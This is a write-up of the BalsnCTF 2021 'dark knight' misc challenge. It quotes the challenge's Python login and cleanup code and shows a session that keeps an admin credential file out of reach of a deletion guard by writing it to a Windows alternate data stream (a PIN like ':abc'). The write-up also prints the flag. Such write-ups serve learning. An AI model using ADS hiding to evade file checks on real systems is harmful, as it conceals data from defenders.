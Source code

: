 # dark knight - BalsnCTF 2021


# Challenge Description

dark knight

Category: Misc

Author: 424275

Verifier: nawmrofed(1hr)

Solves: 12 / 278

once upon the ime, there was a dark knight who kills every admin he met...

```markdown
nc darkknight.balsnctf.com 8084
```

# Inspection

From the provided challenge file, we know that our goal is to login with the username 'admin', then we will get the flag after entering the passcode 'plz'. 

```python
if username != None and password != None:
  print(f"hello, {username}.")
  if username == "admin":
      while True:
          x = input("do you want the flag? (y/n): ")
          if x == "n":
              print("OK, bye~")
              return
          elif x == "y":
              break
          else:
              print("invalid input.")
      while True:
          x = input("beg me: ")
          if x == "plz":
              print("ok, here is your flag: BALSN{flag is here ...}")
              break
```

There are two way to login, fast login and normal login. The normal login seems safe so we will check the fast login. We can see that there is a fast login that takes a pin code and retrieve the username and password from the file with the same name. 

```python
def fast_login():
    while True:
        pin = input("enter a pin code > ")
#... some checks on pin code
#...
				if "\\" in pin or "/" in pin or ".." in pin:
            print("what do you want to do?(¬_¬)")
            continue
#... some more checks on pin code
#...
    try:
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                print("unknown error happened??")
                return None, None
            return data[0], data[1]
    except FileNotFoundError:
        print("this pin code is not registered.")
        return None, None
```

There is also a password manager that allow us to write our account into a file so we can login with those later. However, the server will check for all file in the directory, and delete all file that stores an admin account. 

```python
def safety_guard():
    print("safety guard activated. will delete all unsafe credentials hahaha...")
    delete_file = []
    for pin in os.listdir("."):
        safe = True
        with open(pin, "r") as f:
            data = f.read().split("\n")
            if len(data) != 2:
                safe = False
            elif len(data[0]) == 0 or len(data[1]) == 0:
                safe = False
            elif data[0].isalnum() == False or data[1].isalnum() == False:
                safe = False
            elif data[0] == "admin":
                safe = False

        if safe == False:
            os.remove(pin)
            delete_file.append(pin)
    
    print(f"finished. delete {len(delete_file)} unsafe credentials: {delete_file}")
```

# Solution

The idea will be to find a place to write the admin account without being listed by os.listdir() so that the file wouldn't be deleted. However, the black list on the file name also forced us to stay in the current directory, that means we need to find other ways to bypass the safe guard. I first tried to write directly to drive such as 'C:' but that leads to nothing, but we I was trying that, I notice some strange behaviors with the colon symbol ':'. After randomly trying different filenames, I got the flag out of pure chance

```
1. passord manager
2. login
3. exit
what do you want to do? > 1
use a short pin code to achieve fast login!!
enter a pin code > :abc
enter username > admin
enter password > 123
saved!!
1. passord manager
2. login
3. exit
what do you want to do? > 2
safety guard activated. will delete all unsafe credentials hahaha...
finished. delete 0 unsafe credentials: []
1. fast login
2. normal login
3. exit
enter login type > 1
enter a pin code > :abc
hello, admin.
do you want the flag? (y/n): y
beg me: plz
ok, here is your flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

``` plaintext
flag: BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}
```

I later learned that I'm writing into an alternate data stream (ads), which isn't a file, so os.listdir() couldn't find it. It seems like that windows ads have been abused by many to write hidden data into the system, and have suffer bad reputations because of that.

